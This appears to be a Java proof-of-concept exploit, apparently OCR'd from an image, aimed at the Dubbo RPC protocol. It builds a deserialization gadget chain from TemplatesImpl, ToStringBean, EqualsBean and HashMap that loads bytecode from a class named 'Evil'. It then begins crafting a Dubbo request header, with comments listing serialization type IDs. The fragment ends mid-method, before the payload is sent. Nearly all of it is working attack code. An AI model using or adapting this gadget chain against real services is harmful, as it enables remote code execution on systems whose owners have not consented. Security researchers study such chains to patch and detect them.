```java

public class Attack {

    protected static final int HEADER_LENGTH = 16;
    protected static final short MAGIC = (short) 0xdabb;
    protected static final byte FLAG_REQUEST = (byte) 0x80;
    protected static final byte FLAG_TWOWAY = (byte) 0x40;
    protected static final byte FLAG_EVENT = (byte) 0x20;

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static Object getPayload() throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");
        HashMap map = new HashMap();
        map.put(fakeBean, 1);
        setFieldValue(fakeBean, "obj", bean);
        return map;
    }

    public static void main(String[] args) throws Exception {
        /*
            bit                      byte
        0-7: Magic High            header[0]
        8-15：Magic Low            header[1]
        16：Req/Res               |
        17：2way                  |
        18：Event                 | header[2]
        19-23：Serialization      |
        24-31：status              header[3]
        32-95：id                  header[4-11]
        96-127：body               header[12-14]
        */
        // header.
        byte[] header = new byte[HEADER_LENGTH];
        // set magic number.
        Bytes.short2bytes(MAGIC , header);
        // set request and serialization flag.
        // 2 -> "hessian2"
        // 3 -> "java"
        // 4 -> "compactedjava"
        // 6 -> "fastjson"
        // 7 -> "nativejava"
        // 8 -> "kryo"
        // 9 -> "fst"
        // 10 -> "native-hessian"
        // 11 -> "avro"
        // 12 -> "protostuff"
        // 16 -> "gson"
        // 21 -> "protobuf-json"
        // 22 -> "protobuf"
        // 25 -> "kryo2"
```